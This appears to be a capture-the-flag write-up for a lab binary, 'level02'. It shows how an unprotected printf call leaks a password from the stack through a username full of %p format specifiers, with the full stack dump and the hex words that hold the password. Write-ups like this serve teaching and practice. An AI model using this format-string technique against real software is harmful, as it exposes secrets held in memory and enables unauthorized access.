 # level02

The level02 has only one main function, which reads the stdin.

We see that the program opens the file containing the desired password, and that the contents of the file are stored in the `local_a8` variable, which is declared on the stack. 

The function expects a username and password, but unlike the previous levels, there's no question of entering a precise value to be able to execute a shell or make an overflow.  

We can see a bash system call, but to enter the if, we need to enter the right password...  

On the other hand, at the end of the code, we can see an unprotected printf call : `printf(local_78);`  

And it's this flaw that we're going to exploit to recover our password. All we need to do is use %p to display the values in the stack.
The various variables are stored on the stack from top to bottom. All we need to do is locate our buffer, which is declared just after local_a8, and move up 5 values (as we read 41 characters):
```bash
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
--[ Password: *****************************************
AAAAA 0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x7025204141414141 0x2520702520702520 0x2070252070252070 0x7025207025207025  does not have access!
```

And here are our hexadecimal values:
```
0x756e505234376848 
0x45414a3561733951 
0x377a7143574e6758 
0x354a35686e475873 
0x48336750664b394d
```

Now we just need to reverse the order and convert (we made a program for this purpose : `decrypt.go`) our values to get our password!
